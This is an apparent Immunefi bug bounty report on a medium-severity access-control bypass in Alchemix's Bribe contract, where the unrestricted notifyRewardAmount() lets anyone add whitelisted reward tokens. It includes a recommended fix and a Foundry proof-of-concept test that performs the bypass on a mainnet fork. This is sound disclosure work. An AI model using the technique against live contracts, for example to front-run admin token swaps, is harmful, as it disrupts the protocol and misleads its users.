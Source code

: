 
# Alchemix : addReward() access control can be bypassed in Bribe contract

Submitted on May 19th 2024 at 22:24:08 UTC by @Norah for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31462

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Brief/Intro
The bribe contract has an access-controlled function `addRewardToken()` that allows only the corresponding gauge to add a new reward token to the rewards list. Although many tokens are whitelisted by the voter contract, only the gauge can determine which of these whitelisted tokens should be added to the bribe contract as a reward token.

```solidity
    function addRewardToken(address token) external {
        require(msg.sender == gauge, "not being set by a gauge");
       
        _addRewardToken(token);
    }
```

```solidity
    function _addRewardToken(address token) internal {
        if (!isReward[token] && token != address(0)) {
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
            require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

            isReward[token] = true;
            rewards.push(token);
        }
    }
```

## Vulnerability Details
The problem lies in the `notifyRewardAmount()` function, which lacks any access control. This function allows anyone to inject a reward into the bribe contract by specifying the token address and amount. If the token is whitelisted but not yet added to the rewards list, it will simply be added.
```
    function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

        _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }

```
As a result, anyone can add a whitelisted token to the bribe contract by calling `notifyRewardAmount()` function with the token address and a minimal amount of 1 wei.
 
## Impact Details
Malicious users can add numerous reward tokens to the bribe, misleading users or external projects querying the list of reward tokens for a particular bribe contract. Additionally, there is a `swapOutRewardToken()` function that allows the admin of the voter contract to swap out reward tokens.

The admin must call `swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken)` with the respective indexes of the tokens they wish to swap out. A malicious user (e.g., an aggressive competitor) can front-run the admin's transaction by calling `notifyRewardAmount()`, adding new tokens and thereby changing the previous token indexes to alter the intended outcome of the admin's transaction. This can also lead to a denial of service (DoS) for other normal functionalities, at least temporarily.

## Recommendation 
Remove the functionality that allows any user to add reward tokens by calling `notifyRewardAmount().`

```
    function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

---   _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }
```


## Proof of Concept
- Below test showcases how any users can add any whitelisted token to the `rewardlist` using `notifyRewardAmount()` function.
- Add the below test into the `voting.t.sol` file of the current test suite and run via following command :
- forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/{Alchemy-Api-Key} --match-test "testRewardTokenAddition" -vv

```

    function testRewardTokenAddition() public{

        //lets whitelist usdc for the sake of example.    
        hevm.prank(address(timelockExecutor));
        IVoter(voter).whitelist(usdc);

        //current reward token in the list.
        address bribeAddress = voter.bribes(address(sushiGauge));
        uint256 rewardsLength = IBribe(bribeAddress).rewardsListLength();
        console2.log("rewards_list : ",IBribe(bribeAddress).rewards(rewardsLength-1));

        //Malicious User calling the notifyRewardAmount to add USDC as rewards token into the list 
        //with the usdc address and just 1 wei of amount

        deal(usdc, address(this), 1);
        IERC20(usdc).approve(bribeAddress, 1);

        IBribe(bribeAddress).notifyRewardAmount(usdc, 1);
        rewardsLength = IBribe(bribeAddress).rewardsListLength();

        //usdc has been added to the rewards list.
        console2.log("rewards_list : ",IBribe(bribeAddress).rewards(rewardsLength-1));
        assertEq(IBribe(bribeAddress).rewards(rewardsLength-1),usdc); 
        
    }

```
